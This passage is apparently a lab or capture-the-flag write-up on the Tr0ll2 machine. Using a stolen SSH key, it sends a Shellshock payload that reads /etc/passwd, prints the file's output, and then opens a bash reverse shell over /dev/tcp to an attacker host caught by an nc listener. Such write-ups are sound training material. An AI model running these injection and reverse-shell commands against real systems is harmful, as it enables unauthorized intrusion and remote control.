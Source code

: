 Let's Try Harder.

## Getting Access
As we now have the private **`SSH`** Key of user `noob`, we can try some methods to exploit the ssh server. here's the one I found and worked for me called `SSH Bash Shellshock Exploit` [here](https://www.youtube.com/watch?v=blaui7SZQJ4)

```shell-session
(env) [elliot@archlinux]  lmao git:(main) ✗ ssh -i noob noob@192.168.225.188 '() { :;}; cat /etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
maleus:x:1000:1000:Tr0ll,,,:/home/maleus:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:104:111:ftp daemon,,,:/srv/ftp:/bin/false
noob:x:1002:1002::/home/noob:/bin/bash
Tr0ll:x:1001:1001::/home/tr0ll:/bin/false
```

and that we can run our commands, let's get a reverse shell

command
```shell-session
(env) [elliot@archlinux]  lmao git:(main) ✗ ssh -i noob noob@192.168.225.188 '() { :;}; bash -i >& /dev/tcp/192.168.225.43/4444 0>&1'
```

listener
```shell-session
[elliot@archlinux]  troll2 git:(main) ✗ nc -nvlp 4444
Connection from 192.168.225.188:46614
bash: no job control in this shell
noob@Tr0ll2:~$ 
```
